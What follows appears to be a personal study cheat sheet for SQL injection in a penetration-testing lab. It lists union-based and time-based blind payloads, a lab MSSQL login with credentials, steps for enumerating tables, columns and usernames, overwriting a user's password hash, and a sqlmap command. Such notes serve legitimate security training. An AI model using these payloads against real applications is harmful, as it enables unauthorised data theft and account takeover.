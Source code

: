 # SQL Entry point
- mysql ``` mysql -u root -p'root' -h 192.168.186.16 -P 3306```
- Interesting info
    ``` database(), user(), @@version ```

- mssql ``` impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth ```
    
    Get tables: ``` select * from {datatable}.information_schema.tables; ```

    ![alt text](image.png)

    example: ```table = offsec.dbo.users```

# Manual SQL exploit

## Union based payload
``` %' UNION SELECT database(), user(), @@version, null, null -- // ```

``` ' UNION SELECT null, username, password, description, null FROM users -- // ```

- Requires same number of columns & Usually first column union will be ignore (ID column)

## Blind SQL
- boolean/time-based checking

``` ' AND IF (1=1, sleep(3),'false') -- // ```
- test if something is exist : yes = do sleep 3 seconds
 
# Yes or no  (Time based)
- If condition correct will have delay e.g. ``` '; IF (1=2) WAITFOR DELAY '0:0:10';--  ```
- Using Count () = 1 to determine if have result return!
1. Check user table exist? 
   - MYSQL ``` select count(name) from sys.tables where name = 'users'  ```
   - MSSQL ``` SELECT COUNT(*) FROM information_schema.tables WHERE table_schema = DATABASE() AND table_name = 'users'; ```
2. Check column name 'user' in table 'users' ? 
   - MSSQL ``` select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'user'  ``` 
   - MYSQL ``` SELECT COUNT(*) FROM information_schema.columns WHERE table_schema = 'your_database_name' AND table_name = 'users' AND column_name = 'user'; ```
3. Check col name 'password' exist? --> if no clue then can use % character , then 1 letter by 1 letter test it e.g. now test pass% success then try passw%. To guess the result
   - MSSQL ``` select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name like 'pass%'``` 
4. Stop testing until no more delay e.g. if ans = password_hash, password_hash% wont have delay!
5. Determine total columns 
   - MSSQL ``` (select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' )>3 ```
   - MYSQL ``` SELECT COUNT(*) > 3 FROM information_schema.columns WHERE table_schema = DATABASE() AND table_name = 'users'; ```
6. Guess Username ( can use A% / B% / etc... to guess)
   - MSSQL ``` (select count(username) from users where username = 'butch')=1 ```
   - MYSQL ``` SELECT COUNT(*) = 1 FROM users WHERE username = 'butch'; ```
7. Update the password 
   - MSSQL ``` update users set password_hash = 'tacos123' where username = 'butch' ```
   - MYSQL ``` UPDATE users SET password_hash = 'tacos123' WHERE username = 'butch';```
8. Validate if can update!
9. Sometime not working caz those password is hashed and not match the application when check 
    ``` 
        echo -n 'tacos123' | md5sum
        echo -n 'tacos123' | sha1sum
        echo -n 'tacos123' | sha256sum 
    ```

# SQL Shellcode excution
## Manual shell
![alt text](image-1.png)


## Automated 
- BANNED
- mysql
    ``` sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user ```

# MSSQL
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-blind-based 
- UNC Path useful